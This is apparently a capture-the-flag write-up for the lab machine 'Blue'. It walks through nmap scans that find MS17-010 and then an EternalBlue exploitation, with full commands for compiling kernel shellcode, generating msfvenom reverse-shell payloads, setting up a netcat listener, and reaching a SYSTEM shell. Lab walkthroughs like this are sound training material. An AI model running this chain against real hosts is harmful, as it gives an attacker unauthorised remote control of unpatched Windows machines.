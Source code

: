 # Blue @ 10.10.10.40

## Enumeration

A port scan with OS detection and script scanning reveals open ports for SMB and RPC, and shows us that the operation system is Windows 7 Prof SP1.

```bash
$ sudo nmap -v -A 10.10.10.40
...
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
...
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
...
```

Use the smb-vuln scripts of nmap to check for SMB vulnerabilities

```bash
$ nmap -v -p139,445 --script "smb-vuln-*" 10.10.10.40
...
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
...
```

## Exploitation

The system seems to be vulnerable for MS17-010. This can be easily exploited with metasploit (use exploit/smb/ms17_010_eternalblue). But there are also some other great exploit scripts to be found on GitHub, like https://github.com/helviojunior/MS17-010. Note that there are a lot of variants available, some work, some don't.

```bash
$ git clone https://github.com/helviojunior/MS17-010.git
Cloning into 'MS17-010'...
$ cd MS17-010
```

First try the automatic exploit

```bash
$ python zzz_exploit.py 10.10.10.40 
Target OS: Windows 7 Professional 7601 Service Pack 1
Not found accessible named pipe
Done
```

No success, next step is to try the manual version in three steps:

1. Compile kernel code
2. Generate shell binaries.
3. Merge binaries into one file.
4. Start listener and run exploit

```bash
$ cd shellcode

# Compile kernel code
$ nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
$ nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin

# Create shellcode
$ msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.16 LPORT=4444
$ msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.16 LPORT=4444

# Merge
$ cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
$ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
$ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin

# Start listener in second terminal
$ nc -nlvp 4444

# Run exploit
$ cd..
$ python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin 40
shellcode size: 2203
numGroomConn: 40
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

The groom number might need some fine tuning, in this case 40 seems to work

```bash
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

As we are already system, both user.txt and root.txt are accessible.

```cmd
C:\> type C:\Users\haris\Desktop\user.txt
C:\> type C:\Users\Administrator\Desktop\root.txt
```
